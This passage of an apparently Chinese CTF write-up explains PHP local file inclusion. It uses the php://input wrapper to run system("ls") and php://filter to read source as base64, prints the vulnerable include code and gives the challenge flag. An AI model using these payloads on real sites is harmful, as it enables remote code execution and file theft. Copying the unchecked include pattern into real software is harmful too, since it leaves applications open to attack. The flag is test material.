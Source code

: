 即REQUEST方式传递的参数值，就是本页面要包含的文件路径，否则默认包含phpinfo.php文件，使用PHP伪协议进行文件包含(无论是post还是get方式提交都可以用$_REQUEST
用$_REQUEST['参数名称']获取值)

使用`php:input`伪协议传递参数进行代码执行，执行ls命令成功

```
url:?path=php://input

[POST DATA]
<?php system("ls"); ?>
```

![](https://img.yatjay.top/md/202203132119402.png)

使用`php:filter`伪协议进行文件读取，并做base64解密

`url: ?path=php://filter/read=convert.base64-encode/resource=[文件名]`

得到index.php文件内容如下

```php
<?php 
show_source(__FILE__);
if(isset($_REQUEST['path'])){
	include($_REQUEST['path']);
}else{
	include('phpinfo.php');
}

```

得到dle345aae.php文件内容如下，拿到flag

```php
<?php 
$flag="flag{4c8cf944-e137-413b-8b72-41bda6d5ea37}";
```

# 涉及资源

爱春秋百度杯CTF：https://www.ichunqiu.com/battalion?t=1&r=O

南邮杯CTF：http://4.chinalover.sinaapp.com/web7/index.php

php伪协议：https://www.cnblogs.com/endust/p/11804767.html

https://pan.baidu.com/s/1x_mwVF--xxmoKAvDJ8mRsw 提取码: xiao

```php
<?php
$filename=$_GET['filename'];
include($filename);

/*
$filename=$_GET['filename'];
include($filename.".html");
*/
?>
```

